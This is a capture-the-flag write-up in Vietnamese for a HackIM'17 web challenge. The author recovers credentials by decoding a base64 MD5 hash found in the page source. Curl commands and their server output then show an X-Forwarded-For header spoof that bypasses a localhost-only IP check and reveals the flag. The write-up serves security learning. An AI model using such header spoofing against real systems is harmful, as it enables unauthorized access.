

## Web1

> Chris Martin wants to go home. Can you help him get there as soon as possible?<br>
> http://54.152.19.210/web100/

#### WriteUp

Đề bài có vẻ như yêu cầu mình phải đăng nhập đúng `username` và `password` để lấy được flag.

Đầu tiên, khi `viewsource`, mình phát hiện ra chuỗi base64 này

```
MmI0YjAzN2ZkMWYzMDM3NWU1Y2Q4NzE0NDhiNWI5NWM=
```

Decode nó ra và được đoạn md5 hash.

```
2b4b037fd1f30375e5cd871448b5b95c
```

Sau khi dùng `john` để crack và vô vọng, mình thử tìm kiếm trên Google về đoạn hash này và tìm thấy những thông tin khá thú vị.

<p align="center">
  
</p>

Trong đó nói gì đó về tấm hình `coldplay-paradise.jpg`, có vẻ liên quan đến `username|password`. Thử tiếp tục tìm kiếm với từ khóa `Chris Martin Coldplay` thì mình tìm ra được Chris Martin là leader của nhóm nhạc Rock Coldplay, vậy chắc đúng rồi. Quay lại trang web và truy cập với `coldplay|paradise` xem.

Oops, lỗi `Mismatch in host table! Please contact your administrator for access. IP logged.`. Quay lại với đề bài, mình thấy `Chris Martin wants to go home` và `IP logged`, vậy phải làm gì đó để đưa IP về với `localhost`.

Thử dùng `curl`.

```
traioi$ curl -v http://54.152.19.210/web100/ --data "user=coldplay&pass=paradise" -H "Host: 127.0.0.1"
```

```html
<html>
<head>
<title>
HackIM'17 - Web100
</title>
</head>
<body>
<h1>HackIM'17 - Web100</h1>
<form method="POST" autocomplete="off">
<p>Username: <input type="text" name="user" id="user"></p>
<p>Password: <input type="password" name="pass" id="pass"></p>

<p>
<input type="submit" value="Submit"/> 
<input type="reset" value="Reset"/>
</p>
</form>

Mismatch in host table! Please contact your administrator for access. IP logged.
</body>
</html>
```

Èo, vẫn thế, nhưng mà vẫn còn cách khác để đưa anh ấy về nhà, thử dùng với header `X-Forwarded-For` xem.

```
traioi$ curl -v http://54.152.19.210/web100/ --data "user=coldplay&pass=paradise" -H "X-Forwarded-For: 127.0.0.1"
```

```html
<html>
<head>
<title>
HackIM'17 - Web100
</title>
</head>
<body>
<h1>HackIM'17 - Web100</h1>
<form method="POST" autocomplete="off">
<p>Username: <input type="text" name="user" id="user"></p>
<p>Password: <input type="password" name="pass" id="pass"></p>

<p>
<input type="submit" value="Submit"/> 
<input type="reset" value="Reset"/>
</p>
</form>

<font style="color:#FF0000"><h3>The flag is: 4f9361b0302d4c2f2eb1fc308587dfd6</h3><br\></font\>
</body>
</html>
```

Cuối cùng cũng chịu về nhà và gửi mình cái flag `flag{4f9361b0302d4c2f2eb1fc308587dfd6}`